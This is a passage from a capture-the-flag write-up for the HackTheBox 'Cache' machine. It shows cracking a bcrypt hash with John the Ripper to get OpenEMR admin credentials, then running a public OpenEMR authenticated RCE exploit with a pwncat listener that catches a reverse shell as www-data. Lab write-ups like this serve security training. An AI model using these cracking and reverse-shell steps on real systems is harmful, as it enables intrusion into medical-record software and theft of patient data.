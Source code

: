 Let's put the hash in a file to crack it with [JtR][JtR]:

```
$ printf %s '$2a$05$l2sTLIG6GTBeyBf7TAKL6.ttEwJDmxs9bI6LXqlfCpEcY6VF6P0B.' > hash.txt
$ john -w /usr/share/wordlists/password/rockyou.txt --format=bcrypt hash.txt
Warning: invalid UTF-8 seen reading /usr/share/wordlists/password/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 32 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
xxxxxx           (?)
1g 0:00:00:01 DONE (2020-07-15 00:51) 0.6369g/s 722.2p/s 722.2c/s 722.2C/s water..zombie
Use the "--show" option to display all of the cracked passwords reliably
Session completed
$ john --show hash.txt
?:xxxxxx

1 password hash cracked, 0 left
```

Now we have some creds: `openemr_admin` / `xxxxxx`.

### HTTP exploitation (OpenEMR): RCE

Now we will be able to use the authenticated RCE we found earlier.

**Warning**: Using EDB-48515 that has a neutral impact rather than EDB-45161 that
will reset the config to default for everyone!!!

```
$ searchsploit -m 48515
  Exploit: OpenEMR 5.0.1 - Remote Code Execution
      URL: https://www.exploit-db.com/exploits/48515
     Path: /usr/share/exploitdb/exploits/php/webapps/48515.py
File Type: ASCII text, with CRLF line terminators

Copied to: /home/noraj/CTF/HackTheBox/machines/Cache/48515.py
```

Let's modify, the remote URL, the LHOST, LPORT, and admin creds.

Then start a listener & start the exploit:

```
$ pwncat -l 8888 -vv
INFO: Listening on :::8888 (family 10/IPv6, TCP)
INFO: Listening on 0.0.0.0:8888 (family 2/IPv4, TCP)
INFO: Client connected from 10.10.10.188:32838 (family 2/IPv4, TCP)
Linux cache 4.15.0-109-generic #110-Ubuntu SMP Tue Jun 23 02:39:32 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 23:11:40 up 32 min,  0 users,  load average: 0.07, 0.02, 0.03
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$

$ python2 48515.py
[+] Authentication with credentials provided please be patient
[+] Uploading a payload it will take a minute
[+] You should be getting a shell
```
